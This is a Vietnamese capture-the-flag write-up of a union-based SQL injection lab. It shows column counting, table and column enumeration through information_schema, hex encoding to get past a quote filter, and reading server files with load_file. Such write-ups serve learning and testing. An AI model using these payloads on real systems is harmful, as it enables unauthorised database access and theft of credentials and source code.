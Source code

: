 Dễ dàng thấy được vị trí thực hiện sql injection là đường dẫn khi bấm vào link `admin` trên tab Members sau:

> ?action=members&id=1

thử với id bằng 2 ra no result, xem ra cả bảng user có 1 tài khoản admin thôi.

Thử câu injection đơn giản:

> id=1 union select 1

lỗi: 

> The used SELECT statements have a different number of columns

vậy phải select nhiều hơn 1 column, thử đến `select 1,2,3,4` mới ra kết quả:

> no result found

lạ thật, có vẻ nó không cho in ra 2 kết quả thì phải. Vậy mình ép kết quả của query chỉ có 1 hàng thôi:

> id=2 union select 1,2,3,4

lần này thì được rồi:

`ID : 1
Username : 2
Email : 4`

inject với câu query quen thuộc:

> id=2 union select table_name,2,3,4 from information_schema.tables where table_schema=database() limit 1

kết quả:

`ID : member
Username : 2
Email : 4`

tìm được tên bảng là member, vậy tiếp theo:

> id =2 union select group_concat(column_name) from information_schema.columns where table_name='member'

Nhưng nhận ra dấu `'` bị filter thành `\'`. Theo như bài `SQL routed` đã từng làm, thử hex encode member rồi nhét trở lại câu query:

> id =2 union select group_concat(column_name) from information_schema.columns where table_name=0x6D656D626572

kết quả:

```
ID : member_id,member_login,member_password,member_email
Username : 2
Email : 4
```

Vậy làm câu lệnh để lấy password ra thôi:

> id=2 union select ,member_password,2,3,4 from member
>
> VA5QA1cCVQgPXwEAXwZVVVsHBgtfUVBaV1QEAwIFVAJWAwBRC1tRVA==

tuy nhiên nộp thử thì đây lại không phải password. Để ý từ đầu tới giờ ta chưa dùng gì đến hàm đọc file. `MySQL` có 1 hàm tên là `load_file`. Thử đọc code:

> id=2 union select 1,2,3,load_file('index.php')

quên mất là bị filter dấu nháy đơn. Thử hex encode đoạn trong dấu ngoặc(hex thì không lấy dấu nháy đơn):

> id=2 union select 1,2,3,load_file(0x27696E6465782E70687027)

vẫn không được, khó hiểu ghê...

Lên mạng kiếm sol, hóa ra phải điền full đường dẫn challenge/web-serveur/ch31/index.php. Lại:

> id=2 union select 1,2,3,load_file(0x6368616C6C656E67652F7765622D736572766575722F636833312F696E6465782E706870)

ra được code của file index.php rồi. Từ đây tự decode ra password thôi




